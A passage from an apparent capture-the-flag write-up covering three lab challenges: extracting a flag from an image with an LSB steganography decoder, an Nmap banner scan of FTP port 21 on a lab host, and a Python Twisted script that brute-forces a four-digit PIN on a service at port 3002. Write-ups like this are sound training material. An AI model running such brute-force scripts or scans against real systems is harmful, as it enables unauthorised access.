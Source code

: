Once the repo finished downloading I simply ran the downloaded image through it to reveal the flag:

```terminal
LSBSteg.py decode -i 1337-h4ck3r.png -o result
```

## INF001
This was a nice quick challenge, I know that the default port for an FTP server to be listening on is 21 so I ran an Nmap scan against port 21 on the target machine with the banner script enabled and immediately found the flag.

```terminal
nmap -sV --script banner -p 21 192.168.13.44
```

## INF002
The challenge here was to connect to the service on port 3002 and send the correct (unknown) four digit-pin in order to get the flag, it was time for another Python script (of course these scripts can be written in other languages instead).

```python
import os
from twisted.internet import protocol
from twisted.internet import reactor

class PinSender(protocol.Protocol):
  def __init__(self):
    self.pin = 0

  def connectionMade(self):
    self.sendPin()

  def dataReceived(self, data):
    if 'Incorrect' not in data.decode() and 'Submit' not in data.decode():
      print(data.decode())
      self.transport.loseConnection()
    else:
      self.sendPin()

  def sendPin(self):
    pin = str(self.pin).zfill(4)
    self.transport.write(pin.encode())
    self.pin += 1

class PinSenderFactory(protocol.ClientFactory):
  def buildProtocol(self, address):
    return PinSender()

  def clientConnectionLost(self, connectory, reason):
    os._exit(0)

if __name__ == '__main__':
  reactor.connectTCP('192.168.13.44', 3002, PinSenderFactory())
  reactor.run()
```
